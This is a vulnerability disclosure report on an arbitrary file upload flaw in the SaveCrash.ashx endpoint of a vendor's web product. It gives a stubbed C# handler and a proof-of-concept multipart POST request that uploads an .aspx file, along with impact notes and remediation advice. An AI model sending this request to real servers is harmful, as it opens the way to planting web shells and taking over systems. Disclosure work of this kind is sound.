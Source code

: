 ![image-20250225200841561](./assets/image-20250225200841561.png)

# Vulnerability Report

## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary File Upload Vulnerability in SaveCrash.ashx

### Summary:
The `SaveCrash.ashx` endpoint on the vendor's website `http://www.zzskzy.com/` is vulnerable to arbitrary file upload, allowing an attacker to upload and execute malicious files on the server.

### Affected Endpoint:
`SaveCrash.ashx`

### Vulnerability Type:
Arbitrary File Upload Vulnerability leading to Remote Code Execution (RCE)

### Vulnerable Code:
```c#
public class SaveCrash : IHttpHandler
{
    public void ProcessRequest(HttpContext context)
    {
        JsonStr jsonResult = new JsonStr();
        string message = "";
        bool sucess = UploadCrash(context, ref message);    // Arbitrary File Upload
        if (sucess)
            jsonResult.Msg_code = ReturnCode.pass;
        else
            jsonResult.Msg_code = ReturnCode.null_result;

        jsonResult.Msg_info = message;
        context.Response.Write(jsonResult.GetJonStr());
    }

    protected bool UploadCrash(HttpContext context, ref string message)
    {
        try
        {
            // File upload logic
            // Vulnerable code allowing any file type to be uploaded
        }
        catch (Exception ex)
        {
            message = "文件上传错误";
            Log.Debug("crash/SaveCrash接口异常", ex.Message);
            return false;
        }
    }
}
```

### Proof of Concept (PoC):
```
POST /SaveCrash.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
This vulnerability allows an attacker to upload and execute arbitrary files on the server, potentially leading to Remote Code Execution (RCE). An attacker could upload malicious scripts, such as web shells, to take control of the server, steal data, or disrupt the system's functionality.

### Recommendation:
1. Validate file types and extensions on the server-side to restrict uploads to safe formats.
2. Implement file size restrictions to prevent the upload of large files.
3. Sanitize user inputs and encode output to prevent code injection attacks.
4. Regularly monitor server logs for suspicious activities and file uploads.

### Conclusion:
The `SaveCrash.ashx` endpoint on the vendor's website `http://www.zzskzy.com/` contains a critical vulnerability that allows for arbitrary file uploads, posing a significant risk of remote code execution. It is imperative that the vendor addresses this issue promptly to secure their system and protect user data.

### References:
- OWASP File Upload Security Risks: https://owasp.org/www-community/vulnerabilities/File_upload_vulnerabilities
